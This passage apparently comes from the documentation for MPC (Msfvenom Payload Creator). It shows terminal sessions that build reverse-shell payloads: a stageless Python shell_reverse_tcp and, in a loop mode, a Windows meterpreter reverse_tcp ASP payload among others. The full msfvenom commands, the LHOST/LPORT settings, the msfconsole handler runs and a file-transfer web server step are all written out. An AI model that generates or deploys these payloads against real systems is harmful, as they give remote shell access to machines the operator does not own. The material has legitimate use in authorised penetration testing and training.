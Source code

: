 
## Example \#3 (Python Format, Interactive IP Menu)

```bash
root@kali:~# mpc stageless cmd py tcp
 [*] Msfvenom Payload Creator (MPC v1.4)

 [i] Use which interface - IP address?:
 [i]   1.) eth0 - 192.168.103.183
 [i]   2.) tap0 - 10.10.100.63
 [i]   3.) lo - 127.0.0.1
 [i]   4.) wan - xxx.xxx.xxx.xxx
 [?] Select 1-4, interface or IP address: 2

 [i]   IP: 10.10.100.63
 [i] PORT: 443
 [i] TYPE: python (python/shell_reverse_tcp)
 [i]  CMD: msfvenom -p python/shell_reverse_tcp -f raw \
  --platform python -e generic/none -a python LHOST=10.10.100.63 LPORT=443 \
  > '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] python shell created: '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] MSF handler file: '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [i] Run: msfconsole -q -r '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [?] Quick web server (for file transfer)?: python -m SimpleHTTPServer 8080
 [*] Done!
root@kali:~#
```

_Note: Removed WAN IP._


## Example \#4 (Loop - Generates one of everything)

```bash
root@kali:~# ./mpc.sh loop wan
 [*] Msfvenom Payload Creator (MPC v1.4)
 [i] Loop Mode. Creating one of each TYPE, with default values

 [*] Msfvenom Payload Creator (MPC v1.4)
 [i]   IP: xxx.xxx.xxx.xxx
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f asp \
  --platform windows -a x86 -e generic/none LHOST=xxx.xxx.xxx.xxx LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.asp'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.asp'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-asp.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-asp.rc'
 [?] Quick web server (for file transfer)?: python -m SimpleHTTPServer 8080
 [*] Done!


 [*] Msfvenom Payload Creator (MPC v1.4)
...SNIP...
 [*] Done!

root@kali ~$
```
